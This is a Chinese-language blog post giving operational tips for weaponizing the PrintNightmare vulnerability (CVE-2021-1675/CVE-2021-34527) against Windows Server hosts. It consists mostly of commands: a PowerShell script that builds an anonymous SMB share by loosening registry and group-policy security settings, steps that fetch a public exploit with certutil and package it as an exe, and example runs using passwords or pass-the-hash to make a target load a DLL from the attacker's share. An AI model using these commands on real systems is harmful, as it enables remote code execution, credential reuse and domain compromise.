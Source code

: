 ```yaml
---
title: PrintNightmare 实战利用Tips
date: 2022-11-13 3:34:50
categories: 
- 漏洞
tags:
- 漏洞复现
- PrintNightmare
- CVE-2021-1675
- CVE-2021-34527
- 武器化
---
```

# **概述**

**CVE-2021-1675 / CVE-2021-34527 这两个洞本质上就是一个洞，只是因为修复的问题分配了两个编号。具体的漏洞分析就不赘述了，很早就有人发过，没必要炒冷饭，这里只总结下实际使用时可能出现的问题，以及很多poc中不会提到的细节**

## 复现攻击环境

### 注意事项

#### 1.域相关

目标机器为域内Windows Server机器时，攻击机必须为同一域内的机器；目标机器为非域环境Windows Server机器时，攻击机器为目标机器可以访问到的另一机器即可

> 加入域后的Windows系统访问外部资源会携带已登录的域用户凭证，所以未加入域且未提前指定凭据的的SMB就无法访问。因此攻击域内机器有此限制

#### 2.SMBv1

攻击机器为Windows Server 2019及更高版本时，需要执行 `Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol`并重启去开启SMBv1，否则有可能出现rpc_s_access_denied的问题，攻击机器为2016及更低版本的系统时，可以直接使用 `Set-SmbServerConfiguration -EnableSMB1Protocol $true`开启SMBv1的支持

## 步骤

### 1.准备payload

在攻击机器创建C:\share文件夹，并将dll放入其中（此路径可根据需求修改，修改后下一步脚本自行对应修改）

### 2.开启SMB匿名共享

```powershell

#修改路径权限，使所有人可读
icacls C:\share\ /T /grant Anonymous` logon:F
icacls C:\share\ /T /grant Everyone:F
#创建名称为share路径为C:\share的SMB共享
New-SmbShare -Path C:\share -Name share -FullAccess 'ANONYMOUS LOGON','Everyone'
#启用guest用户
net user guest /active:yes
#覆盖已有的NullSessionPipes配置
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f
#设置可以匿名访问共享
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
#设置Everyone权限包含匿名登录用户
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
#设置任何用户都可以通过网络获取本机的信息
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
#提取本地安全组策略
secedit /export /cfg gp.inf /quiet
#修改组策略中的指定权限
(Get-Content gp.inf) -replace "SeDenyNetworkLogonRight = Guest","SeDenyNetworkLogonRight = " | Set-Content "gp.inf"
#导入本地安全组策略
secedit /configure /db gp.sdb /cfg gp.inf /quiet
#更新本地安全组策略
CMD.EXE /C "gpupdate/force"
#清理文件
CMD.EXE /C "del gp.inf"
CMD.EXE /C "del gp.sdb"
```

注：此脚本修改自[Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer)

### 3.准备exp

#### 选择exp

推荐exp为[CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)，主要优势在于可以使用hash进行攻击，现在越来越难搞到密码了，hash的场景更多

因为大部分目标环境不会有python环境，所以最好打包为exe使用

#### 打包exe

打包使用Windows Server 2008 R2机器，安装[Python3.8](https://www.python.org/ftp/python/3.8.10/python-3.8.10-amd64.exe)，[Git](https://github.com/git-for-windows/git/releases/download/v2.38.1.windows.1/Git-2.38.1-64-bit.exe)，之后执行以下命令

> *Windows Server 2008 R2以保证大部分系统能正常运行，Python版本推荐3.8.10，可低不可高*

```bash
git clone https://github.com/cube0x0/impacket
cd impacket
certutil -urlcache -split -f https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py CVE-2021-1675.py
pip3 install six pycryptodomex pyasn1 pyinstaller
pyinstaller --clean --onefile CVE-2021-1675.py
```

生成的文件在 `\impacket\dist\CVE-2021-1675.exe`

### 4.执行

示例：

```bash
CVE-2021-1675.exe hackit.local/domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe hackit.local/domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe hackit.local/domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe hackit.local/domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"
```

